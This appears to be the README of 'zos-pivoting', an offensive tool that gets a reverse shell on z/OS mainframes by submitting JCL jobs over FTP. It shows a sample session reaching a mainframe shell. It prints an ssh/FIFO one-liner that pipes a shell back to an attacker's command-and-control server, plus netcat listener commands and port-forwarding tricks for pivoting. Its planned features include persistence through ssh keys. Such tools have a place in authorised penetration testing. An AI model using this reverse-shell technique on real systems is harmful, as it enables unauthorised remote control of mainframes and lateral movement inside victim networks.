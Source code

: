 # zos-pivoting

Library set to get a secure reverse shell by submitting a JCL job via FTP on z/OS.

```
$ python ftp2shell.py config.ini
Input the password for zuser on target.mainframe.net:

Save the pulic key below in ~ccserveraccount/.ssh/authorized_keys

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+og7UDXjtluvauvB3Uo7eFqYGTDYlptkdCIcUPNlakHbaZDTsXl/7xRPrbfuan+NLltHzmeYXm8JWSqDGsP+cyA2iRlu3hri8OhYtJtd8Sv/brEkg0ePc2X7U6l1/Qoaj8HWtS7wxXXKuCvChf3z/G7etSFOhiV7cp02JJTvK9dX5baAzw2DCqfh5LSRPlE7QbLqigYlI6bXxUfJ1TX5FdNSKdnBc7zL1umBT70+T/p5kZ/jDexGVsvdGtmgv1jrbONFGQuDz38GuvqyK5TNMw1EJBa/RxCXzRFKMdlfUWGeQQweoYNcDkftfAr84NRX8edXuh1mgyDOcIaCtj5Zl

Press Enter to continue...
mf.bigiron.local> uname
OS/390
mf.bigiron.local> exit
This will terminate the connection to mf.bigiron.local, are you sure? (y/N) y
```

The library contains:

 * `config.ini` a sample configuration file
 * `ftp2shell.py` the main script, it uses the config file and the next items
 * `reverseshellmanager.py` uses `stdiotranscoder.py` in zosutils to get a nice interactive shell via netcat or other
 * `zosutils/stdiotranscoder.py` wraps the stdin/stdout of a command and performs transparent re-encoding (EBCDIC to UTF8 or other encodings supported by python). In other words: makes nc/ncat support EBCDIC and other character encoding systems
 * `zosutils/zosftp.py` talks FTP and uses the extra features of the FTP server in z/OS
 * `sshutils/ssh_utils.py` generation and management of ssh keys and fingerprinting

The python files in the root of the project exhibit a lower coding quality than the others.

## Design
This project uses the new ssh stdin and stout redirection to get a fully interactive reverse shell on a mainframe.

Here is an example:

```
ssh -i $KEYNAME $CCU@$CCS -p $CCP -o UserKnownHostsFile=$KNOWNHOSTSFILE -o StrictHostKeyChecking=yes -N -W $NCIP:$NCP < $FIFONAME | sh -s > $FIFONAME 2>&1 & echo $STARTSEND > $FIFONAME'
```

SSH tunnels stdin and stdout, piping to a shell.
A FIFO file contains all the inputs and outputs to and from the shell.
Please note how awesome the strong host fingerprint checking and the key-based authentication are.

The same principle can be applied to other systems running ssh.

You have to do the cleanup by yourself.

Python >= 3.7 only.

## Requirements
You have to create a user in your machine to get the reverse connection on your `cc_server` (see the config file).
The user does not need an interactive shell.

## Dependencies
Python >= 3.7.

You can install the [ebcdic](https://pypi.org/project/ebcdic/) package to support more character encodings.

The default EBCDIC support in Python 3 should be enough most of the time.

## Usage:
 * Edit `config.ini`
 * Run `python ftp2shell.py config.ini`. The script will:
    - connect to the mainframe via FTP
    - generate and run a JCL batch
    - start a ssh connection against `cc_server` and start a tunneled clear-text shell
    - start the shell management
 * The resulting shell is a nearly full-featured SH shell.
The ssh tunnelling protects the shell.
 * There is a custom `_runssh` command which can be used to run further ssh commands.
Think port forwarding and that goodness.
For example, to get access to TN3270 on your localhost run:
```
mainframe> _runssh -R 2222:localhost:23
```
And then connect to localhost:2222.

## Testing
You can run the stdio wrapper and the reverse shell manager from the commandline.
There are also testing scripts.

### Example:
From a terminal run:
```
python reverseshellmanager.py cmd nc -l -p 1234
```
And on another one run:
```
bash testing/synch_shell.sh
```
Enjoy your local shell.

## Future Steps
* Update this readme
* Automate running custom sshd server on the target to get full socks proxy (-R)
* Automate the pivoting by parsing the output of netstat/NETSTAT and:
    - ssh -R
    - ssh -L
    - starting a local sshd
* Automatic APF library enumeration (?)
* Persistence via ssh keys (?)
* Port to other systems

